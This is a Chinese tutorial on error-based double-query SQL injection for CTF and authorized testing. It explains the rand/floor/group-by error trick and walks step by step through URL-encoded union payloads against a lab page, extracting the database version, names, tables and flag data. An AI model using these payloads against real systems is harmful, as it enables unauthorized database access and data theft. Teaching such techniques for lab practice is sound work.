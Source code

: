 <!--
author: maomao
date: 2018-0２-２０
title:sql注入之双查询注入
category: web安全入门
status: publish
summary: 一些研究人员发现，使用group子句结合rand()函数以及像count(*)这样的聚合函数，在SQL查询的时候就产生错误。在产生错误的同时，会将我们查询的数据一起显示出来。但是这种报错是随机的。因此，我们便可以构造报错来获取我们需要的数据。
-->



##一、免责声明

该课程中涉及的技术只适合于CTF比赛和有合法授权的渗透测试。请勿用于其他非法用途，如果作于其他非法用途，与本文作者无关。

##二、什么是双查询

简单来说，双查询注入就是一个select语句中在嵌套一个select语句。具体如下图:

![](img/2.5/1.png)

在执行上述语句的过程中，先执行select user()语句，然后再将该语句的结果传递给外面的select函数。由内到外依次执行。

##三、基本函数

首先我们先学习几个函数

1.rand()

>RAND 函数用于产生从0到1之间的随机数。

![](img/2.5/2.png)

2.Floor()

>FLOOR(X)表示向下取整，只返回值X的整数部分，小数部分舍弃。

![](img/2.5/3.png)

3.count()

>COUNT(*)函数返回由SELECT语句返回的结果集中的行数。COUNT(*)函数计算包含NULL和非NULL值的行，即：所有行。

![](img/2.5/4.png)

4.group by

>GROUP BY 语句用于结合合计函数，根据一个或多个列对结果集进行分组。

不懂的可以看一下这里：

>http://www.w3school.com.cn/sql/sql_groupby.asp

5.concat()

>CONCAT 函数用于将两个字符串连接为一个字符串

![](img/2.5/5.png)

##四、双查询注入原理

一些研究人员发现，使用group子句结合rand()函数以及像count(*)这样的聚合函数，在SQL查询的时候就产生错误。在产生错误的同时，会将我们查询的数据一起显示出来。但是这种报错是随机的。因此，我们便可以构造报错来获取我们需要的数据。

固定公式如下

>union select 1,count(*),concat(0x3a,0x3a,(注入语句),0x3a,0x3a,floor(rand()*2))a from information_schema.columns group by a--+

报错注入看似比较难，但是使用相对简单。只要在注入语句处，换成我们前两次课程注入语句即可注入成功。

关于这几个函数在一起为什会报错在这里不做详细的叙述，有兴趣的可以看下面这篇文章

>http://www.anquan.us/static/drops/tips-14312.html



##五、实战

1.我们按照之前的方法逐步进行手工注入，当判断完列数，然后判断回显位置的时候.发现并没有回显位置。

![](img/2.5/6.png)

拿出我们刚刚的固定公式，查一下数据库的版本。

>链接：
http://39.98.88.18:8080/sql/Less-5/index.php?id=1%27%20union%20select%201,count(*),concat(0x3a,0x3a,(version()),0x3a,0x3a,floor(rand()*2))a%20from%20information_schema.columns%20group%20by%20a--+

![](img/2.5/7.png)

这里需要说明一点的是，因为这是是随机报错。如果一次报错没有出来，多次刷新即可。


2.查数据库名

>http://39.98.88.18:8080/sql/Less-5/index.php?id=1%27%20union%20select%201,count(*),concat(0x3a,0x3a,(select%20database()),0x3a,0x3a,floor(rand()*2))a%20from%20information_schema.columns%20group%20by%20a--+

![](img/2.5/8.png)

3.查表名

>http://39.98.88.18:8080/sql/Less-5/index.php?id=1%27%20union%20select%201,count(*),concat(0x3a,0x3a,(select table_name from information_schema.tables where table_schema='security' limit 0,1),0x3a,0x3a,floor(rand()*2))a%20from%20information_schema.columns%20group%20by%20a--+

此时发现报错了，我们使用limit 0,1 来限制一下行数。

>LIMIT 子句可以被用于强制 SELECT 语句返回指定的记录数。MySQL LIMIT 接受一个或两个数字参数。参数必须是一个整数常量。如果给定两个参数，第一个参数指定第一个返回记录行的偏移量，第二个参数指定返回记录行的最大数目。初始记录行的偏移量是 0

我们可以通过查看limit参数来查看其他的表，比如我们查看第二行的表（limit 1,1）

>http://39.98.88.18:8080/sql/Less-5/index.php?id=1%27%20union%20select%201,count(*),concat(0x3a,0x3a,(select%20table_name%20from%20information_schema.tables%20where%20table_schema=%27security%27%20limit%201,1),0x3a,0x3a,floor(rand()*2))a%20from%20information_schema.columns%20group%20by%20a--+

成功发现falg表。

![](img/2.5/9.png)

4.查列名

http://39.98.88.18:8080/sql/Less-5/index.php?id=1%27%20union%20select%201,count(*),concat(0x3a,0x3a,(select column_name from information_schema.columns where table_name ="flag" ),0x3a,0x3a,floor(rand()*2))a%20from%20information_schema.columns%20group%20by%20a--+

![](img/2.5/10.png)

5.查数据

http://39.98.88.18:8080/sql/Less-5/index.php?id=1%27%20union%20select%201,count(*),concat(0x3a,0x3a,(select flag from flag ),0x3a,0x3a,floor(rand()*2))a%20from%20information_schema.columns%20group%20by%20a--+

![](img/2.5/11.png)

##六、课后练习

CTF赛题地址：https://t.zsxq.com/UNbM33F
